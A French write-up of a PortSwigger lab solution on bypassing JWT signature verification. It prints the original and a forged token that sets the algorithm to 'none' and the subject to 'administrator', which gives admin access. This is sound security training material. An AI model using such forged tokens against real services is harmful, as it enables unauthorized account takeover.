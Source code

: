 # Lab

https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification

## Solution

Quand on se connecte sur le lab, on a un JWT dans un cookie.

```
eyJraWQiOiI3ZTdkOTYwZi05Y2MxLTQwMTYtOThlNS1lZTQ3YzUxNDlkMGQiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTcwMjUwNjkwNn0.WxG5mnhcDrpWvGwRLzSxeaGBGuYw9nL2JB0w9-NjcNg6bbykEw6hB7EGUwhdTAIx4eaZRmDcfqB7cTtRamzb-ccfV2vojJNy3JWPQVgy36GyorsIaiHiaXvdNV161MolelyTsBf6JQjrMaAF6zSOGhyCBGunI4FQ4U5fT3iss09xLjm3rLRWTfxuP-efr4Ts1GsM6pi8LHufSygZqaVzwtnNOaZzLJMiI3jHYTh3285BpVt9Rpne3XZiMA6EF29soihBtzyYZBAngw4D3F7Tot_QDqVo0WRDVvtMHnCKGtAR-UEdp0_W6SBktNl09aAqjex1Bl68OfPtoe9VacmwnA
```

Le body du JWT décodé est le suivant :

```json
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1702506906
}
```

Si on change le body pour mettre en `sub` le nom `administrator`, le token n'est pas valide car la signature est vérifiée.

En revanche, on peut faire une attaque `none algorithm` en changeant le header du JWT :

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE3MDI1MDc1Mzd9.

{
    "typ": "JWT",
    "alg": "none"
}

{
  "iss": "portswigger",
  "sub": "administrator",
  "exp": 1702506906
}
```

Et là, le token est valide et on a accès à la page d'administration pour supprimer l'utilisateur `carlos` et valider le lab.


